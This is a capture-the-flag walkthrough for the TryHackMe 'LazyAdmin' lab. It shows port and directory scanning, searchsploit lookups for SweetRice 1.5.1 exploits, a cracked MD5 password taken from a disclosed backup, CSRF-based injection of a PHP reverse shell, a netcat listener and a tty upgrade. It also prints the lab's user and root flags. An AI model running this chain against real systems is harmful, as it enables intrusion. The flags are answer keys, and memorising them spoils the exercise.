 # LazyAdmin

```bash
export IP=10.10.216.244
```

## Scans

### Nmap

Command:
```bash
mmap -sC -sV -oN scans/nmap.initial $IP
```

Open Ports found:
```
22 -- ssh
80 -- webpage
```

URL found in page source:`https://bugs.launchpad.net/ubuntu/+source/apache2/+bug/1288690`


### Gobuster

Command:
```bash
gobuster dir -w wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP
```

Directories found:
```
/content
```

URL found in /content: `http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/`


### Nikto

Command:
```bash
nikto -host $IP
```

## Searchsploit

Command:
```bash
searchsploit SweetRice
```

this exploit is uploadable and offers a login page:
```
SweetRice 1.5.1 - Cross-Site Request Forgery
```

Command: to copy an exploit
```bash
searchsploit -m /path/to/exploit.html
```


this exploit explains the location of a backup .sql file in `/content/inc/mysql_backup`:
```
SweetRice 1.5.1 - Backup disclosure
```

found in `/content/inc/mysql_backup`:

username and hash found: `manager:42f749ade7f9e195bf475f37a44cafcb`

run through `crackstation.net` reveals MD5 hash and password `Password123`


## Exploit
Command: runs the exploit and opens the login page -- Proof Of Concept
```bash
firefox exploit.html
```

check `/content/inc/ads/hacked.php` to see if php 'hacked' info  page is loaded in

if so: copy `revshell.php` code into `exploit.html`, remember to change $IP and $port and $value

start netcat listening port:
```bash
nc -lnvp 8888
```

Command: opens the login page as a background process and injects php reverse shell
```bash
firefox exploit.html &
firefox exploit.html
```

Visit `http://$IP/content/inc/ads/revshell.php` to spawn shell


### Upgrading to a tty shell

Command: uses `script`, so no need for Python
```bash
/usr/bin/script -qc /bin/bash /dev/null
```

**User Flag Found**: `THM{63e5bce9271952aad1113b6f1ac28a07}`


## PrivEsc


**Root flag**: `THM{6637f41d0177b6f37cb20d775124699f}`

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
